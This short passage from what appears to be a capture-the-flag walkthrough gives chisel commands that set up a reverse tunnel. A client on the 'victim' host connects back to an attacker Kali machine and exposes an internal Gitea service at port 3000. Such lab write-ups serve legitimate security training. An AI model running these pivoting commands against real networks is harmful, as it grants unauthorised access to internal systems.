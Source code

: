 ![](./IMG/32.png)
- Execute chisel with following: 
```
# on Kali

./chisel server -p 9898 --reverse

# on Victim

./chisel client 10.10.16.13:9898 R:3000:172.17.0.1:3000
```

![](./IMG/33.png)
- Browser access ```127.0.0.1:3000``` will find a Gitea Home Page

